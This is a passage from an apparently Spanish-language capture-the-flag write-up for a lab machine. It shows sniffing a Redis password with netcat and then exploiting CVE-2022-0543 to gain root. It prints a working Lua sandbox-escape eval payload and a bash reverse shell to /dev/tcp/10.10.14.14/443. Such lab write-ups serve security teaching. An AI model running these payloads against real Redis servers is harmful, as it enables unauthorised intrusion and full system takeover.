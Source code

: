 ```bash
❯ ./redisc_conector_dev
[+] Logging to redis instance using password...

INFO command result:
 i/o timeout
 ```
 Se conecta a nuestro puerto 6379 y podemos ver con que contraseña se esta autenticando.
 ```bash
 ❯ nc -lvnp 6379
listening on [any] 6379 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 46420
*2
$4
auth
$16
F2WHqJUz2WEz=Gqq
```
Comprobemos que estas credenciales sean correctos.
```bash
dan_smith@shared:/$ redis-cli 
127.0.0.1:6379> auth F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379> 
```
Y la contraseña es correcta, Si nos vamos a [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#lua-sandbox-bypass) y filtramos por redis nos hablan de que podemos llegar a injectar comandos ya que en redis se usa Eval para ejecutar codigo lua.

En este [articulo](https://thesecmaster.com/how-to-fix-cve-2022-0543-a-critical-lua-sandbox-escape-vulnerability-in-redis/) explican muy bien de que va la vulnerabilidad y de que forma aprovecharnos de esta.

Creamos un archivo el cual se encargue de enviarnos una ReverShell.
```bash
dan_smith@shared:/dev/shm$ cat rev.sh 
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.14.14/443 0>&1" & disown
```
Nos conectamos a redis y ejecutamos los Siguientes comandos.
```bash
 dan_smith@shared:/dev/shm$ redis-cli 
127.0.0.1:6379> auth F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash /dev/shm/rev.sh", "r"); local res = f:read("*a"); f:close(); return res' 0
```
Y Por debajo nos llega la consola como root
```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.172] 52222
bash: cannot set terminal process group (4527): Inappropriate ioctl for device
bash: no job control in this shell
root@shared:/var/lib/redis# whoami
whoami
root
root@shared:/var/lib/redis# 
```
Gracias por leer!

